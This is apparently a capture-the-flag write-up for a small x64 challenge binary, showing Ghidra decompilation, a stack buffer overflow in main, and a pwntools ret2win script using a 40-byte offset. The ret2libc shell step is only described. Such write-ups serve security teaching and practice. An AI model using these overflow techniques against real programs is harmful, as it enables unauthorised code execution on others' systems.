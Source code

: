 <h3> Binary Exploitation </h3>

#### This is a binary a friend of mine gave me and i decided to do it and it turns out pretty easy

#### Basic File Checks
![image](https://user-images.githubusercontent.com/127159644/227796080-4c7a83aa-bfbd-4e3f-8bc4-e9822a3f1219.png)

We can see its a x64 binary and the only protection enabled is `NX enabled`

I'll run the binary to know what it does

```
➜  ~ ./chall 
I ask you what your heart desire ? 
lol
I hear the secrets that you keep ! 
yea
➜  ~ 
```

Nothing really much happening here

So using ghidra i'll decompile the binary
![image](https://user-images.githubusercontent.com/127159644/227796173-66383c20-474c-4287-82c4-f03d817e7f78.png)

There's also a flag function in it but the flag is redacted
![image](https://user-images.githubusercontent.com/127159644/227796226-19541dc4-1ea3-4bc1-ae3d-c5bb3126b0a1.png)

So for this the task was 2 the first one was to get the flag while the second was to get shell

Getting the flag is basically just going to have to do with ret2win

Here's the main function

```
undefined8 main(void)

{
  undefined buf [24];
  void *local_10;
  
  disable_buffering();
  local_10 = mmap((void *)0x1337000,0x1000,7,0x22,0,0);
  puts("I ask you what your heart desire ? ");
  read(0,local_10,128);
  puts("I hear the secrets that you keep ! ");
  read(0,buf,128);
  return 0;
}
```

Looking at it since it doesn't do much we can spot the vulnerability already

```
read(0,buf,128);
```

It's reading 128 bytes into a buffer that can only hold up 24 bytes so this is a buffer overflow

Lets now perform the exploitation

#### Ret2Win Exploitation

First we need the offset needed to hijack the rip register
![image](https://user-images.githubusercontent.com/127159644/227796422-e7968080-3ae3-4bcc-943b-1effad48a96b.png)
![image](https://user-images.githubusercontent.com/127159644/227796452-5e6fb05a-e02f-449a-921a-bcccf7c010c9.png)

So the offset is `40` with this performing the ret2win should be straight forward

We just need the adderss of the flag function which can be gotten from gdb or ghidra
![image](https://user-images.githubusercontent.com/127159644/227796531-748320a3-0b21-45e1-a582-268c35e16423.png)

Now here's the solve script for performing the ret2win

```
from pwn import *
import warnings

io = process('./chall')
warnings.filterwarnings('ignore')

offset = 40
padding = b'B'*offset
addr = p64(0x00000000004011fb)

payload = padding + addr

io.send('lol')
io.sendline(payload)
#io.interactive()
io.recvline()
io.recvline()
flag = io.recvline()
success(flag)
```

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796637-a2954788-2a4d-4606-832d-1930ec1736fb.png)

Now for the second part of the challenge which is getting shell here's what i did

I just performed a ret2libc

Why i did that was because during the program execution the global offset table of puts is already populated
![image](https://user-images.githubusercontent.com/127159644/227796788-4ec19eae-2ec5-4270-8a2c-867a12423f64.png)
![image](https://user-images.githubusercontent.com/127159644/227796802-3606b946-5b94-4b06-b63e-8e2cee7ccc00.png)
![image](https://user-images.githubusercontent.com/127159644/227796813-d73bb565-1b40-4140-b827-49a15fa2b491.png)

Here's my solve script [Exploit]()

Running it works
![image](https://user-images.githubusercontent.com/127159644/227796869-69662796-a767-4418-9d59-9efd1121fcde.png)
